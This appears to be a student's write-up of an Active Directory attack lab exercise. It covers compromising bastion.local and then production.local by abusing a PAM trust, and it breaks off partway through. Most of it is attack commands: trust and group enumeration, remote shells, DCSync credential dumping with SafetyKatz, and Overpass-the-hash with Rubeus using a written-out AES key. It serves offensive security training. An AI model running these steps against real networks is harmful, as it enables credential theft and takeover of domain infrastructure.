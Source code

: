 
Task 

• Compromise production.local by abusing PAM trust between bastion.local and production.local

First, we need to compromise bastion.local. We have DA on techcorp.local that has a two-way trust with bastion.local. Let's enumerate Foreign Security Principals on bastion.local to check if there is anything interesting. Using the Active Directory module from InvisiShell:

ADmodule

```
 Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

![[Pasted image 20250325183014.png]]

So, the DA of techcorp.local is a part of a group on bastion.local. To find out which group it is a member of, run the below command:

```
Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

![[Pasted image 20250325183232.png]]

Sweet! The administrator of techcorp.local is a member of the built-in administrators group on bastion.local. 

That makes things simple! Let's access bastion-dc as administrator. Run the below command from an elevated shell on the student VM to use Overpass-the-hash:

```
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\bastion-dc.bastion.local\C$\Users\Public\InShellProf.dll /Y
```

```
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\bastiondc.bastion.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
```

```
winrs -r:bastion-dc.bastion.local cmd
```


```
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

Check if PAM trust is enabled. First enumerate trusts on bastion.local. Because we are already on a domain controller, we can use the Active Directory module:

```
Get-ADTrust -Filter {(ForestTransitive - eq $True) -and (SIDFilteringQuarantined -eq $False)}
```
![[Pasted image 20250325210239.png]]

Once we know that there is a ForestTransitive trust and SIDFIlteringForestAware is false, enumerate trusts on production.local to be sure of PAM trust in use. If we try to access production.local from the session on bastion.local we will face the double hop issue, so we need to use Overpass-the-hash Administrator of bastion.local. First, we will use the privileges of domain administrator of techcorp.local to extract credentials of domain administrator for bastion.local. Use the below command in the command prompt that we used above:


```
echo %Pwn% lsadump::dcsync
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe - args "%Pwn% /user:bastion\Administrator /domain:bastion.local" "exit"
```

![[Pasted image 20250325210603.png]]

Run the below command from an elevated shell on the student VM to use Overpass-the-hash and start a process with the privileges of domain administrator of bastion.local:

```
echo %Pwn% asktgt
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe - args %Pwn% /domain:bastion.local /user:administrator /aes256:a32d8d07a45e115fa499cf58a2d98ef5bf49717af58bc4961c94c3c95fc03292 /dc:bastion-dc.bastion.local /createnetonly:C:\Windows\System32\cmd.exe /show
```
In the new process, use the below commands to copy and use InvisiShell:


![[Pasted image 20250325212345.png]]

```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

![[Pasted image 20250325212419.png]]

So we now know that SID History is allowed for access from bastion.local to production.local. Check the membership of Shadow Security Principals on bastion.local:


